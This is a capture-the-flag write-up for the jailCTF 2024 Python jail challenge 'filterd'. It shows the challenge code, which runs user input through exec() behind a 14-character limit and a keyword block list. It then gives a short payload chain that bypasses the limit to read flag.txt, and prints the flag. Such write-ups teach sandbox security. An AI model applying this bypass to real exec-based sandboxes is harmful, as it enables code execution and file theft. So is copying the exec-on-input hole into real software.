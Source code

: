 # jailCTF 24: `filterd`

## Challenge Code

```python
M = 14  # no malicious code could ever be executed since this limit is so low, right?

def f(code):
    assert len(code) <= M
    assert all(ord(c) < 128 for c in code)
    assert all(q not in code for q in ["exec", "eval", "breakpoint", "help", "license", "exit", "quit"])
    exec(code, globals())

f(input("> "))
```

## Objective

Read `flag.txt` from a server that filters user input.

- Input length is capped at **14 characters**.
- Only valid ASCII characters (0-127) are allowed.
- The following strings are blacklisted: `exec`, `eval`, `breakpoint`, `help`, `license`, `exit`, `quit`.
- If all contraints pass, the server `exec`s our input.

## Initial Observations

1. The obvious approach is to try `print(open('flag.txt').read())`, but the 14-character limit makes this impossible (even `open('flag.txt')` is too long).
2. Since `exec` runs in the global context, we can potentially modify global variables like `M` (the character limit), `f` (the vulnerable function), or Python's builtin functions to circumvent this restriction.
3. Increasing `M` by sending `M=99;f(input())` seems like a good approach, but fails because this payload is one character too long!

## Solution

- Send `i=input;f(i())` to create a shortened alias `i` for `input`, then call `f(i())` which prompts for new input and executes the vulnerable function on it.
- With our new alias `i`, we now have room to send `f(i());f(i())` which executes the vulnerable function **two more times** on fresh inputs.
- In the first input, send `M=99` to increase the global character limit.
- In the second input, send `print(open('flag.txt').read())` to read the flag now that the character limit has been increased.

## Final Payload

```python
i=input;f(i())
f(i());f(i())
M=99
print(open("flag.txt").read())
```

## Flag
`jail{can_you_repeat_that_for_me?_aacb7144d2c}`
